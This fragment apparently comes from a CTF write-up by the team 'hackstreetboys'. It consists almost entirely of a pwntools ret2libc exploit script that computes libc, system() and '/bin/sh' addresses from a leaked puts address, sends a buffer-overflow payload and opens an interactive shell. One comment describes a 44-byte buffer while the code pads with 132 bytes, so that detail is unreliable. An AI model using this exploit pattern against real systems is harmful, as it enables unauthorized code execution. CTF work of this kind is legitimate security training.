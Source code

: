 ```
libc_base = puts_leak - puts_offset   
system_addr = libc_base + system_offset  
binsh_addr = libc_base + binsh_offset  
exit_addr = libc_base + exit_offset

log.info('Formula to compute the addresses we need:')  
log.info('libc_base = puts_leak - puts_offset')  
log.info('system_address = libc_base + system_offset')  
log.info('bin_sh_address = libc_base + bin_sh_offset')

log.info('libc base: {}'.format(hex(libc_base)))  
log.info('system() addr: {}'.format(hex(system_addr)))  
log.info('/bin/sh addr: {}'.format(hex(binsh_addr)))

# Stage 2 payload   
# -----------------------

payload = ""  
payload += "A"*132  
payload += p32(system_addr)  
payload += p32(exit_addr)  
payload += p32(binsh_addr)

log.info('Payload format: [44 bytes buffer] + [system() addr] + [4 bytes garbage] + [/bin/sh addr]')  
log.info('Sending stage 2 payload.')  
log.info('Enjoy your shell! ')

r.recvuntil('desert: ')  
r.sendline(payload)  
r.interactive()
```

-

— ar33zy

[hackstreetboys](https://hackstreetboys.ph/) aka [hsb] is a CTF team from the Philippines.

Please do like our [Facebook Page](https://www.facebook.com/hackstreetboys/) and Follow us on [Twitter](https://twitter.com/_hackstreetboys), [Medium](https://medium.com/hackstreetboys), and [GitHub](https://github.com/hackstreetboysph).

